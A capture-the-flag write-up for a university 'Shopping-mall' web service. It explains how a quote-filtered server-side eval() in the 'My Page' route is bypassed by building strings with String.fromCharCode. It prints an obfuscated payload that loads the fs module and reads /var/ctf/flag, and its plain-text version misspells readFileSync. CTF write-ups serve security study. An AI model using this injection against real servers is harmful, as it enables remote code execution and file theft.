 # Write-up of Shopping-mall service

## PoC code
```javascript
require(String.fromCharCode(97+5)+String.fromCharCode(97+18)).readFileSync(String.fromCharCode(47) +  String.fromCharCode(118) +  String.fromCharCode(97) +  String.fromCharCode(114) +  String.fromCharCode(47) +  String.fromCharCode(99) +  String.fromCharCode(116) +  String.fromCharCode(102) +  String.fromCharCode(47) +  String.fromCharCode(102) +  String.fromCharCode(108) +  String.fromCharCode(97) +  String.fromCharCode(103)).toString()
```

## Description
In the "My Page", there is a `eval()`
function [when message is processed by server][1]. So we can execute any
javascript for at server side, but there is a small filter.

It filters some chars including `'`, and `"`. Because of that, we cannot use
strings.

However, we can bypass this using the `String.fromCharCode()` function. This
function produce a single character from ASCII code, so by chaining that code we
can produce any string freely.

To read a key file, it is enough to execute this:
```
require('fs').readfFileSync(keypath).toString()
```

With proper encoding, we can get final PoC code described as above.

[1]: https://github.com/KAIST-IS521/2017ctf-public/blob/bf48232a3c3d0801d96c85d5011162b5c03a95fa/mall/webServer/routes/mypage.js#L70-L74
